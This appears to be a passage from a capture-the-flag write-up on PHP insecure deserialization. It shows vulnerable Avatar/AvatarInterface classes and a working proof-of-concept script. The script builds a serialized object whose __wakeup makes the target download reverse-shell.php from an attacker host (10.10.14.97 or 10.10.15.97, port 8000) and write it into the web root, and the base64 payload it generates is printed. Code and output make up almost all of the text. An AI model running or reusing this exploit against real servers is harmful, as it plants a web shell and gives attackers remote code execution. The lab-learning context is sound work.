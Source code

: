 ``` bash
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

```
**The test will be**
_Serialize AvatarInterface Object with ImgPath = /var/www/html/something.php file_get_content('http://10.10.14.97:8000/reverse-shell.php')

``` bash
 <?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() { #__wakeup is called when an obj is unserialized
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$obj = new AvatarInterface();
$obj->tmp = 'http://10.10.15.97:8000/reverse-shell.php';
$obj->imgPath = '/var/www/html/something.php';

echo base64_encode(serialize($obj));

?>
```
``` bash
❯ php -f test.php
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czo0MToiaHR0cDovLzEwLjEwLjE1Ljk3OjgwMDAvcmV2ZXJzZS1zaGVsbC5waHAiO3M6NzoiaW1nUGF0aCI7czoyNzoiL3Zhci93d3cvaHRtbC9zb21ldGhpbmcucGhwIjt9%
```
